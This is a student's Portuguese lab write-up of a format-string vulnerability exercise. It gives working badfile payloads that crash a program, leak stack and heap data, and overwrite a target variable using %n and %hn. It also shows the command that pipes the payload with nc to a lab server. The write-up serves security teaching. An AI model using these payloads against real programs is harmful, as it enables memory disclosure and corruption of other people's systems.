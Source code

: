 
# Trabalho realizado na semana 6

![Task 1](screenshots/1_Crash_Program.png)
A imagem das tasks 2A e 2B é a mesma porque imprimo a target ((0x)11223344) e a mensagem ("A secret message") com a mesma badfile.
![Task 2A e 2B](screenshots/2_Print_Secret_And_Target.png)
![Task 3A](screenshots/3A_Write_Target_Any_Val.png)
![Task 3B](screenshots/3B_Write_Target_0x5000.png)
![Task 3C](screenshots/3C_Write_Target_0xAABBCCDD.png)

## Task 1 - Crashar o programa
Isto pode ser feito colocando pelo menos um %s (ou %n), pois o programa vai procurar para ler ou escrever o local na memória cujo endereço é o valor a seguir ao último argumento da função print.

## Task 2A - Imprimir valores da stack.

Ficheiro de Payload/Badfile:
```
"%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x"
```
Nota: A imagem deste ex é a mesma do 2B, pois no 2B também se imprime valores da stack, como a target.

%x imprime, em hexadecimal, valores da stack acima da format string (pois tem símbolos de format (por exemplo %x) a mais). O primeiro valor acima parece ser a "target variable", pois tem sempre o valor (0x)11223344.
Para chegar ao conteúdo da nossa mensagem (assumo que seja o argumento msg da função myprintf), foi preciso usar 64 "%x", ou seja, o primeiro carater da mensagem estava 64 * 4 = 256 bytes depois do último "argumento" (eg: "%s") da função print.


## Task 2B - Imprimir mensagem secreta (na heap).

Ficheiro de Payload/Badfile:
```
"@%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%s"
```
O número de %x depende das posições de memória dos argumentos do print e da mensagem na chamada à função. No nosso caso, como era 64, usamos 63 "%x".
Os primeiros 4 carateres são o local de memória da mensagem secreta.
O último %s serve para imprimir uma string do local escrito no início da nossa string, ou seja, imprimir a mensagem super secreta.


Bónus:
## Task 3A - Alterar valor da target para um valor qualquer:

Ficheiro de Payload/Badfile:
```
"hP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
%n escreve o número de carateres escrito pelo printf até agora no local de memória pretendido.
Sendo assim, substituimos o endereço de memória da task 2C pela target e substituimos o %s por %n.


## Task 3B - Alterar valor da target para 0x5000:

Ficheiro de Payload/Badfile:
```
"hP%20244d%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%n"
```
Utilizando o argumento width dos argumentos do printf, podemos definir a length mínima da string que queremos imprimir.
Sendo assim, calculamos o quanto seria preciso até ficar 0x5000, ficando 20244.
Este valor imprimido conta como um inteiro, sendo assim, tiramos um %x para compensar o carater extra imprimido.

## Task 3C - Alterar valor da target para 0xAABBCCDD (valor demasiado elevado para estar a imprimir esse número de carateres no ecrã)

Ficheiro de Payload/Badfile:
```
"jPaaaahP%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%xValue:%.43456d %hn %.8737x%hn"
```
Sendo msg a posição de memória da mensagem na function call myprintf do programa:
msg -> endereço de memória da target + 2
msg + 4 -> filler
msg + 8 -> endereço de memória da target

%hn em vez de %n foi usado para escrever só 2 bytes de cada vez em vez de 4, por isso, tivemos de escrever na target + 2 e depois na target.
Como o número de carateres só pode aumentar e não diminuir, primeiro tivemos de escrever o AABB e depois o CCDD

Ps: No preenchimento de carateres, usamos o argumento de precision, pois é mais ideal do que o que usamos para a task 3B.


Observações:
Quando se corre o programa, concatenando a file usando 'cat badfile | nc 10.9.0.5 9090', se a file fosse menor que o 1500 (o tamanho do buffer), precisavamos de pressionar ctrl c. Se fosse pelo menos 1500, considerava os primeiros 1500 e não era preciso pressionar ctrl c.